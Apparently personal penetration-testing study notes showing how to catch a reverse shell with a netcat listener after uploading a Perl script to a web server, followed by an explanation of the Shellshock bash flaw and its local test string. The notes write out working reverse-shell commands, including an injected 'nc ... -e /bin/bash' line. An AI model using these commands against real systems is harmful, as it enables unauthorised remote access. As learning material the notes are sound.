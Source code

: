 - open a netcat listener

```
nc -lvnp 1234
// -n = no dns
// -l = listen
// -v = verbose
// -p = port we want to listen on
```

- now we can open the file through the browser
in browser:

```
<target ip>/<perl-reverse-shell.pl>
```
// we have a shell

- alternatively,
we could have modified the test.pl that we upload before.
add in the code:

```
system("nc <target ip> 1234 -e /bin/bash");
```




## Exploiting Shellshock
	aka Bashdoor

- its from september 2014
- discovered in unix bash shell, and affected CGI programs on web servers;
- openssh, dhcp clients, and several other attack vectors, e.g. Qmail servers etc
- resulted in several CVEs being assigned


### determine if the system is vulnerable
- from a local system perspective:

```
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

// When executed in a vulnerable bash shell, the string essentially executes an environment variable called **x**.
// **x** in turn runs the **echo vulnerable** command, which is outside of the environment variable function
// i.e., outside of the "() { :;};" part of the string

- This was not intended as part of the design of how bash should handle environment variables.
- On a patched system, the correct output of the above string would simply be **this is a test**

### primary attack vectors
- one of the primary attack vector that was seen in the wild following the disclosure of shellshock was the modification of User-Agent strings to include Shellshock payloads intended to run commands on the remote server.
